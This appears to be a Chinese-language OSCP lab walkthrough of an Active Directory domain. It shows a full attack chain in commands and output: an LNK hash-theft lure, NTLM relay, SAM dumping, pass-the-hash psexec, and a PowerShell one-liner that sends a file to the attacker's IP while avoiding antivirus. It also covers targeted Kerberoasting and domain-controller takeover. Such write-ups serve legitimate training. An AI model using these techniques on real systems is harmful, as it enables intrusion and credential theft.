



# Laser 靶機滲透測試紀錄

> [!info] **靶機基本資訊**
> - **平台**：OSCP Lab (Active Directory 域環境)
> - **作業系統**：Windows (Server 2019 / Windows 10)
> - **難易度**：Hard
> - **開始時間**：2026-07-19

---

## 🔍 192.168.x.174 滲透突破

### 1. 偵察與 SMB 共享列舉
使用 `nxc` 驗證域帳密，並列舉 `shares`。發現對 `192.168.x.173` 的 `Apps` 共享目錄有寫入（READ,WRITE）權限：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ nxc smb 192.168.x.0 -u 'Eric.Wallows' -p EricLikesRunning800 --shares
SMB         192.168.224.172 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:laser.com) (signing:True) (SMBv1:None)
SMB         192.168.224.173 445    MS01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MS01) (domain:laser.com) (signing:False) (SMBv1:None)
SMB         192.168.224.174 445    MS02             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MS02) (domain:laser.com) (signing:False) (SMBv1:None)
SMB         192.168.224.172 445    DC01             [+] laser.com\Eric.Wallows:EricLikesRunning800 
SMB         192.168.224.173 445    MS01             [+] laser.com\Eric.Wallows:EricLikesRunning800 
SMB         192.168.224.174 445    MS02             [+] laser.com\Eric.Wallows:EricLikesRunning800 
SMB         192.168.224.172 445    DC01             [*] Enumerated shares
SMB         192.168.224.172 445    DC01             Share           Permissions     Remark
SMB         192.168.224.172 445    DC01             -----           -----------     ------
SMB         192.168.224.172 445    DC01             ADMIN$                          Remote Admin
SMB         192.168.224.172 445    DC01             C$                              Default share
SMB         192.168.224.172 445    DC01             IPC$            READ            Remote IPC
SMB         192.168.224.172 445    DC01             NETLOGON        READ            Logon server share 
SMB         192.168.224.172 445    DC01             SYSVOL          READ            Logon server share 
SMB         192.168.224.174 445    MS02             [*] Enumerated shares
SMB         192.168.224.174 445    MS02             Share           Permissions     Remark
SMB         192.168.224.174 445    MS02             -----           -----------     ------
SMB         192.168.224.174 445    MS02             ADMIN$                          Remote Admin
SMB         192.168.224.174 445    MS02             C$                              Default share
SMB         192.168.224.174 445    MS02             IPC$            READ            Remote IPC
SMB         192.168.224.173 445    MS01             [*] Enumerated shares
SMB         192.168.224.173 445    MS01             Share           Permissions     Remark
SMB         192.168.224.173 445    MS01             -----           -----------     ------
SMB         192.168.224.173 445    MS01             ADMIN$                          Remote Admin
SMB         192.168.224.173 445    MS01             Apps            READ,WRITE      
SMB         192.168.224.173 445    MS01             C$                              Default share
SMB         192.168.224.173 445    MS01             IPC$            READ            Remote IPC
```

> [!info] **關鍵發現**
> `signing:False` 代表目標主機未強制啟用 SMB 簽章，這意謂著我們可以進行 **SMB 中繼攻擊 (SMB Relay Attack)**。

---

### 2. 生成 LNK 惡意檔案與 Responder 監聽
使用 `ntlm_theft.py` 生成 `.lnk` 惡意檔案，連線指向攻擊機 IP（192.168.45.216）：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ python3 ./ntlm_theft/ntlm_theft.py -g lnk -s 192.168.45.216 -f clickme
/home/kali/Desktop/Laser/./ntlm_theft/ntlm_theft.py:168: SyntaxWarning: invalid escape sequence '\l'
  location.href = 'ms-word:ofe|u|\\''' + server + '''\leak\leak.docx';
Created: clickme/clickme.lnk (BROWSE TO FOLDER)
Generation Complete.

┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ cd clickme 

┌──(kali㉿kali)-[~/Desktop/Laser/clickme]
└─$ ls        
clickme.lnk
```

在 Kali 端開啟 `responder` 進行事件監聽：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser/clickme]
└─$ sudo responder -I tun0 -v
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

.......

[+] Listening for events...
```

---

### 3. 上傳惡意檔案以獲取 Hash
將 `clickme.lnk` 惡意檔案上傳至 `192.168.x.173` 的 `Apps` 共享目錄，等待受害端自動觸發：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser/clickme]
└─$ impacket-smbclient Eric.Wallows:EricLikesRunning800@192.168.224.173
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
Apps
C$
IPC$
# use Apps
# put clickme.lnk
# ls
drw-rw-rw-          0  Sat Jun 13 19:17:26 2026 .
drw-rw-rw-          0  Sat Jun 13 19:17:26 2026 ..
-rw-rw-rw-       2164  Sat Jun 13 19:17:26 2026 clickme.lnk
-rw-rw-rw-       1168  Wed Feb 12 13:17:16 2025 Event Viewer.lnk
-rw-rw-rw-       1118  Wed Feb 12 13:17:16 2025 Print Management.lnk
-rw-rw-rw-       1158  Wed Feb 12 13:17:16 2025 Services.lnk
-rw-rw-rw-       1132  Wed Feb 12 13:17:16 2025 Task Scheduler.lnk
```

> [!note] **LNK 檔案觸發機制**
> - 這種類似釣魚手法。
> - 我們將 `.lnk` 放到受害者有權限瀏覽的目錄中，受害者只要開啟該目錄（甚至不需要雙擊執行 `.lnk` 檔案），Windows 檔案總管為了預覽圖示，就會自動解析 `.lnk` 指向的 UNC 路徑。
> - 實務上可將檔案命名為 `icon.lnk` 等正常的檔名。

受害端開啟目錄執行後，`responder` 成功擷取到 NTLMv2-SSP Hash：
```bash
[SMB] NTLMv2-SSP Client   : 192.168.224.173
[SMB] NTLMv2-SSP Username : LASER\carl.dean
[SMB] NTLMv2-SSP Hash     : carl.dean::LASER:c393aa8d2de8b63b:E6BE2485857F26AD58CB623E65F27C52:010100000000000080656CB668FBDC01335866DEFBA763F40000000002000800550034004700390001001E00570049004E002D00310031004C00580043003900470053004E004A00560004003400570049004E002D00310031004C00580043003900470053004E004A0056002E0055003400470039002E004C004F00430041004C000300140055003400470039002E004C004F00430041004C000500140055003400470039002E004C004F00430041004C000700080080656CB668FBDC010600040002000000080030003000000000000000000000000020000043155F1E440213F3ECDB598AC228CA5412784AD2D700C31068AE8A63D016B9BA0A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E00320031003600000000000000000000000000 
```

使用 `hashcat` 進行破解：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ hashcat -m 5600 carl.dean.hash /usr/share/wordlists/rockyou.txt 
hashcat (v7.1.2) starting

.......

Status...........: Exhausted

.......
```

> [!note] **結果分析**
> 雖然 `hashcat` 破解失敗（密碼複雜度過高），但這證明了 `clickme.lnk` 確實有被成功觸發。接下來我們可以改為執行 **SMB 中繼攻擊**。
> 攻擊轉發鏈：`192.168.x.173` ⭢ Kali 攻擊機 ⭢ `192.168.x.174` (MS02)。

---

### 4. 進行 NTLM Relay 攻擊
在 Kali 端啟動 NTLM 轉發監聽器 (`impacket-ntlmrelayx`)，將來自 `192.168.224.173` 的驗證 Relay 至 `192.168.224.174` (MS02)，成功後建立 SOCKS 通道（預設 1080 連接埠）：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ impacket-ntlmrelayx -t 192.168.224.174 -smb2support -socks --no-http-server 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

.......

[*] Servers started, waiting for connections
Type help for list of commands
ntlmrelayx>  * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
 * Debug mode: off
[*] (SMB): Received connection from 192.168.224.173, attacking target smb://192.168.224.174
[*] (SMB): Authenticating connection from LASER/CARL.DEAN@192.168.224.173 against smb://192.168.224.174 SUCCEED [1]
[*] SOCKS: Adding SMB://LASER/CARL.DEAN@192.168.224.174(445) [1] to active SOCKS connection. Enjoy
[*] All targets processed!
[*] (SMB): Connection from 192.168.224.173 controlled, but there are no more targets left!

........

ntlmrelayx> socks
Protocol  Target           Username         AdminStatus  Port  ID 
--------  ---------------  ---------------  -----------  ----  ---
SMB       192.168.224.174  LASER/CARL.DEAN  TRUE         445   1
```

> [!info] **AdminStatus=TRUE 的重要性**
> 在 `ntlmrelayx` 的 `socks` 清單中，`AdminStatus` 顯示為 **`TRUE`**，代表中繼（Relay）成功的域帳號 `LASER/CARL.DEAN` 對目標主機 `192.168.224.174` (MS02) 具有**本機管理員 (Local Administrator) 權限**。
> 這意謂著我們能以該 SOCKS 連線進行高權限的後續攻擊，例如接下來使用 `secretsdump` 導出該主機的本機 SAM 雜湊值。

編輯 `/etc/proxychains4.conf` 設定代理：
```bash
┌──(kali㉿kali)-[~]
└─$ cat /etc/proxychains4.conf  

........

socks4  127.0.0.1 1080
```

使用 `proxychains` 搭配 `impacket-secretsdump`，在免密碼情況下透過 SOCKS 通道竊取 `192.168.224.174` 主機的本機 SAM hashes：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ proxychains impacket-secretsdump -no-pass 'LASER/CARL.DEAN'@192.168.224.174
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

........

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:15759746f66f2da88d58f0160f8ee676:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:1ebc870a303efa8d64fa1a840025ad84:::

.......
```

---

### 5. 取得本機 Administrator 權限與 Proof
使用剛剛獲取的 `Administrator` 的 NTLM Hash，利用 `impacket-psexec` 登入 `192.168.224.174`：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ impacket-psexec -hashes :15759746f66f2da88d58f0160f8ee676 administrator@192.168.224.174
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.224.174.....
[*] Found writable share ADMIN$
[*] Uploading file hkkRYirT.exe
[*] Opening SVCManager on 192.168.224.174.....
[*] Creating service oiLZ on 192.168.224.174.....
[*] Starting service oiLZ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> powershell -c "ls C:\users -file -i local.txt -r -ea 0"

C:\Windows\system32> powershell -c "ls C:\users -file -i proof.txt -r -ea 0"


    Directory: C:\users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        6/13/2026   6:46 PM             34 proof.txt
```
成功取得第一個 `proof.txt`。

另外在系統中搜尋是否存有封包檔案：
```powershell
C:\Windows\system32> powershell -c "ls C:\users -file -i *.pcap* -r -ea 0"


    Directory: C:\users\Administrator\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/12/2025   6:59 PM        1365464 traffic-capture-latest.pcapng
```
在 `Documents` 資料夾中發現 `traffic-capture-latest.pcapng`。

---
---

## 🔍 192.168.x.172 滲透突破

### 1. 下載並分析封包檔案
使用 PowerShell 將 `traffic-capture-latest.pcapng` 轉為 Byte 陣列並以 TCP 連線傳送回攻擊機 Kali（192.168.45.216）：
```powershell
C:\Users\Administrator\Documents> powershell -c "$b=[System.IO.File]::ReadAllBytes('C:\Users\Administrator\Documents\traffic-capture-latest.pcapng'); $c=New-Object System.Net.Sockets.TcpClient('192.168.45.216',1234); $s=$c.GetStream(); $s.Write($b,0,$b.Length); $s.Close(); $c.Close()"
```

在 Kali 上開啟監聽以接收檔案：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ nc -lvnp 1234 > traffic-capture-latest.pcapng
listening on [any] 1234 ...
connect to [192.168.45.216] from (UNKNOWN) [192.168.224.174] 49485

┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ ll
total 1352
-rw-rw-r-- 1 kali kali      48 Jun 13 18:33 192.168.x.0
-rw-rw-r-- 1 kali kali     716 Jun 13 19:20 carl.dean.hash
drwxrwxr-x 2 kali kali    4096 Jun 13 19:12 clickme
drwxrwxr-x 5 kali kali    4096 Jun 13 19:10 ntlm_theft
-rw-rw-r-- 1 kali kali 1365464 Jun 13 19:50 traffic-capture-latest.pcapng
```

> [!warning] **避開防毒軟體**
> 在目標 Windows 主機上若直接上傳 `nc.exe` 通常會被防毒軟體偵測並刪除，因此使用原生 PowerShell 連接 TCP 套接字回傳檔案是更安全的做法。

使用 `wireshark` 打開該封包檔案進行安全性分析：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ wireshark traffic-capture-latest.pcapng 
```

使用快速搜尋方法：在 Wireshark 中按下 `Ctrl + F`，設定搜尋範圍為 **Packet bytes**，搜尋類型為 **String**，關鍵字輸入 **`password`**，發現了明文凭證：



獲取明文域憑證：**`yulia.weber:Yulia@Laser777`**。

---

### 2. 驗證域帳號與登入 DC01
使用 `nxc` 驗證該憑證是否在網域內有效，發現 `yulia.weber` 對域控制器 `192.168.224.172` (DC01) 具有管理員及 RDP 權限：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ nxc rdp 192.168.x.0 -u yulia.weber -p "Yulia@Laser777"
RDP         192.168.224.172 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:laser.com) (nla:True)
RDP         192.168.224.172 3389   DC01             [+] laser.com\yulia.weber:Yulia@Laser777 (Pwn3d!)
```

使用 `xfreerdp3` 以該憑證登入 `192.168.224.172` (DC01)，取得第一個本地 `local.txt`：
```powershell
C:\Users\yulia.weber>powershell -c "ls C:\users -file -i local.txt -r -ea 0"


    Directory: C:\users\yulia.weber\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/13/2026   6:46 PM             34 local.txt
```

---
---

## 👑 域控制器接管 (DC Compromise)

### 1. BloodHound 域環境 ACL 分析
在 Kali 攻擊機端使用 `bloodhound-python` 進行網域的 Active Directory 資訊收集：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser/blood]
└─$ bloodhound-python -u yulia.weber -p 'Yulia@Laser777' -d laser.com -ns 192.168.224.172 -c all
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: laser.com
INFO: Getting TGT for user
INFO: Connecting to LDAP server: DC01.laser.com
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: DC01.laser.com
INFO: Found 28 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: MS02.laser.com
INFO: Querying computer: MS01.laser.com
INFO: Querying computer: DC01.laser.com
INFO: Done in 00M 19S
```

將產生的 JSON 匯入 BloodHound 分析。
分析發現：**`yulia.weber` 對域管理員 `boris.crawford` 擁有 `GenericWrite`（通用寫入）權限**。



---

### 2. GenericWrite SPN 屬性寫入與 Targeted Kerberoasting
利用 `yulia.weber` 具備的 `GenericWrite` 權限修改 `boris.crawford` 的屬性，為其新增一個虛擬 SPN，進而發起 **Targeted Kerberoasting** 攻擊獲取其 TGS 票據雜湊值：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ python3 ./targetedKerberoast/targetedKerberoast.py -d laser.com -u yulia.weber -p 'Yulia@Laser777' --request-user boris.crawford --dc-ip 192.168.224.172 -o boris.hash --only-abuse  
[*] Starting kerberoast attacks
[*] Attacking user (boris.crawford)
[+] Writing hash to file for (boris.crawford)

┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ cat boris.hash    
$krb5tgs$23$*boris.crawford$LASER.COM$laser.com/boris.crawford*$89c401feb471db3bfe1f4c8234fef.............
```

使用 `hashcat` 對該票據進行離線雜湊值破解：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ hashcat -m 13100 boris.hash /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting

........

$krb5tgs$23$*boris.crawford$LASER.COM$laser.com/boris.crawford..........:zxcvbnm

........
```
成功爆破出 `boris.crawford` 的明文密碼：**`zxcvbnm`**。

---

### 3. 接管網域控制器 DC01
使用 `nxc` 驗證該域管理員憑證在域內所有主機的權限，確認 `boris.crawford` 擁有所有主機（包括網域控制器 DC01）的最高 `Pwn3d!` 權限：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ nxc smb 192.168.x.0 -u boris.crawford -p zxcvbnm   
SMB         192.168.224.173 445    MS01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MS01) (domain:laser.com) (signing:False) (SMBv1:None)
SMB         192.168.224.174 445    MS02             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MS02) (domain:laser.com) (signing:False) (SMBv1:None)
SMB         192.168.224.172 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:laser.com) (signing:True) (SMBv1:None)
SMB         192.168.224.173 445    MS01             [+] laser.com\boris.crawford:zxcvbnm (Pwn3d!)
SMB         192.168.224.174 445    MS02             [+] laser.com\boris.crawford:zxcvbnm (Pwn3d!)
SMB         192.168.224.172 445    DC01             [+] laser.com\boris.crawford:zxcvbnm (Pwn3d!)
```

利用 `impacket-psexec` 登入網域控制器 `192.168.224.172` (DC01)，取得 SYSTEM 權限 Shell 及最後的 `proof.txt`：
```bash
┌──(kali㉿kali)-[~/Desktop/Laser]
└─$ impacket-psexec boris.crawford:zxcvbnm@192.168.224.172
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.224.172.....
[*] Found writable share ADMIN$
[*] Uploading file cEPUezkV.exe
[*] Opening SVCManager on 192.168.224.172.....
[*] Creating service ywrk on 192.168.224.172.....
[*] Starting service ywrk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> powershell -c "ls C:\users -file -i proof.txt -r -ea 0"


    Directory: C:\users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        6/13/2026   6:46 PM             34 proof.txt 
```
成功拿下 Laser 靶機的域控制器，滲透測試完成。
